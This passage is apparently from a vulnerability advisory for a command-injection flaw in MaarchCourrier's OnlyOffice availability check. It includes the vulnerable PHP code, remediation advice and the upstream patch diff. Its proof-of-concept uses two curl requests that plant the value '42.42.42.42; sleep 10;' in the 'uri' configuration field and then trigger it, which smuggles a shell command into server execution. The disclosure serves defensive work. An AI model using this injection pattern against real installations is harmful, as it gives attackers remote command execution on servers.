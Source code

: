 ```php
        $uri  = $configuration['onlyoffice']['uri'];
        $port = (string)$configuration['onlyoffice']['port'];

        $isAvailable = DocumentEditorController::isAvailable(['uri' => $uri, 'port' => $port]); // Called here

        if (!empty($isAvailable['errors'])) {
            return $response->withStatus(400)->withJson($isAvailable);
        }

        return $response->withJson(['isAvailable' => $isAvailable]);
    }
[...]
```

To correct this vulnerability, we suggested to avoid relying on low level binary execution and instead test this connection with php builtins with strict parsing (no regex, a real lib and data structure) of the user inputs.

With this in mind, the patch released should at least implement a strong and strict **validation of every user input** and **only allow intended characters** to prevent attackers from injecting malicious commands.

### Proof of Concept (PoC)

```bash
BEARER=XXX.YYY.ZZZ
# Place the payload
curl -X PUT -H "Authorization: Bearer $BEARER" \
  -H "Content-Type: application/json" -d '{
  "java": {},
  "onlyoffice": {
    "ssl": false,
    "uri": "42.42.42.42; sleep 10;",
    "port": "4242",
    "token": "",
    "authorizationHeader": "Authorization"
  }
}' http://localhost/rest/configurations/admin-document-editors

# Trigger the RCE
curl -H "Authorization: Bearer $BEARER" \
    http://localhost/rest/onlyOffice/available
```

### Patch

The patch can be found here: [GitLab - MaarchCourrier - Commit cba02df3070dd682b76129122adb6eeeb6e8109e](https://labs.maarch.org/maarch/MaarchCourrier/-/commit/cba02df3070dd682b76129122adb6eeeb6e8109e)

```diff
diff --git a/src/app/configuration/controllers/ConfigurationController.php b/src/app/configuration/controllers/ConfigurationController.php
index d9e34b3c990e1c23f59c1188e89be23d72e3ecde..ce0512ec4ee714ac071a512b17bf3cc8b1d9925a 100755
--- a/src/app/configuration/controllers/ConfigurationController.php
+++ b/src/app/configuration/controllers/ConfigurationController.php
@@ -145,6 +145,8 @@ class ConfigurationController
                 } elseif ($key == 'onlyoffice') {
                     if (!Validator::notEmpty()->stringType()->validate($editor['uri'] ?? null)) {
                         return $response->withStatus(400)->withJson(['errors' => "Body onlyoffice['uri'] is empty or not a string"]);
+                    } elseif (!preg_match('/^(https?:\/\/)?([\da-z.-]+)\.([a-z.]{2,6})([\/\w .-]*)*\/?$|^(https?:\/\/)?((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/', $editor['uri'] ?? null)) {
```